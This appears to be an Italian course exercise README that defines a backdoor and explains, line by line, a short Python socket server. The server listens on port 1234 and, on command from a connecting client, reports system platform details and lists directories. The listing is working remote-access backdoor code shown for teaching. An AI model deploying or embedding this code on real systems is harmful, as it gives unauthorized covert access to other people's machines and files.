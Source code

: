 # S3-L4-Pratica-Phyton-and-Social-ingegnering
Commentare/spiegare questo codice che fa riferimento ad una backdoor. Inoltre spiegare cos’è una backdoor. 
Il Backdoor è un termine utilizzato per descrivere una via di accesso segreta o non autorizzata in un sistema, spesso utilizzata per il black hacking nel contesto della sicurezza informatica. una backdoor può essere inserita da un attaccante per ottenere accesso non autorizzato a un sistema o per mantenere l'accesso in modo non rilevabile. Questo codice ad esempio a per compito di fare il server aprire una "porta sul retro" per consentire al client di eseguire comandi e ottenere informazioni dal sistema in cui il server è in esecuzione. Tale comportamento può essere considerato malevolo e pericoloso se utilizzato senza il consenso del proprietario del sistema ovviamente da un black Hacker.

il commando "Import" Importa le librerie necessarie
import socket
import platform
import os

Questo Commando definisce l'indirizzo IP e la porta su cui il server ascolta.
SRV_ADDR = ""
SRV_PORT = 1234

Questo commando  crea intermediari tra il livello applicazione e di trasporto nello stack TCP/IP. chiamato Socket crea un socket.
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) 

Questo commando associa il socket all'indirizzo e alla porta specificati
s.bind((SRV_ADDR, SRV_PORT))

Questo commando mette in ascolto il socket per connessioni in entrata
s.listen(1)

Questo commando accetta una connessione quando arriva una
connection, address = s.accept()

Questo commando stampa un messaggio indicando che un client è connesso
print("client connected: ", address)

Questo commando è il Loop principale del server
while 1:
    try:
        Questo commando riceve i dati inviati dal client
        data = connection.recv(1024)
    except:
        continue

    Questo commando porre le condizioni da esegiuire se il client invia '1', invia informazioni sulla piattaforma e architettura
    if data.decode('utf-8') == '1':
        tosend = platform.platform() + " " + platform.machine()
        connection.sendall(tosend.encode())
    
   Questo commando, se il client invia '2', elenca i file nella directory specificata
    elif data.decode('utf-8') == '2':
        data = connection.recv(1024)
        try:
            Questo commando ottiene la lista dei file nella directory specificata
            filelist = os.listdir(data.decode('utf-8'))
            tosend = ""
            
          Questo commando concatena i nomi dei file separati da virgola
            for x in filelist:
                tosend += "," + x
        except:
            tosend = "Wrong path"  # Se si verifica un errore, invia un messaggio di errore

        Questo commando invia la lista dei file al client
        connection.sendall(tosend.encode())
    
    Questo commando permette nel caso che il client invia '0', di chiudere la connessione corrente e mettersi in attesa di una nuova connessione
    elif data.decode('utf-8') == '0':
        connection.close()
        connection, address = s.accept()
